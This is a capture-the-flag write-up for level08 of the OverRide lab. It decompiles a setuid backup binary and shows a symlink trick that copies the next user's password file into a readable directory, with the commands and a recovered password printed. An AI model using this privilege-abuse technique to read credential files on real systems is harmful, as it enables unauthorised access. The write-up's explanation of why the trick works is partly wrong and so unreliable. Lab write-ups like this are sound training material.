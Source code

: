 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  FILE *v4;
  FILE *stream;
  int fd;
  char buf;
  char dest[104];
  unsigned __int64 v9;

  v9 = __readfsqword(28);
  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  v4 = fopen("./backups/.log", "w");
  if ( !v4 )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(v4, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, 193, 432LL);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(v4, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

### Explanation

This binary takes a file path as a parameter and prints its content in `"./backups/"` + `argv[1].`
It first checks whether the path `"./backups/.log"` exists, file where it writes logs indicating whether `"./backups/"` + `argv[1]` was successfully opened and closed.
Next, the program verifies if the specified file and its path can be opened (with the privileges of the user **level09**) by calling `fopen()`.
Finally, it calls `open()` to create a file in `"./backups/"` with our parameter as its name and then uses `write()` to save the file's content.

To obtain the password for the next user, we need to pass the path of the password file owned by **level09** as a parameter for the program that is alse owned by **level09** to read.

The first issue is that we must pass a valid path that does not start with a backslash `"/"`, otherwise, when the path is created here:

```c
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));
fd = open(dest, 193, 432LL);
```

and then passed into `open()`, the resulting string will contain two `"/"` characters in a row, creating an invalid path causing the program to `exit()`.

The second issue is that if we pass the file containing the password for the next level as a parameter, we won’t be able to open it since we lack the necessary permissions.

To bypass these issues, we will create a symbolic link to `"/home/users/level09/.pass"`, because it will:

  1. Provide a valid format to `open()`, as the symbolic link's name will be used instead of its full path, avoiding the double backslash issue.

  2. Resolve ownership restrictions, since symbolic links can be read by anyone, allowing `open()` to successfully access the password file.

## Step 2: Exploiting the Binary

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat ./backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```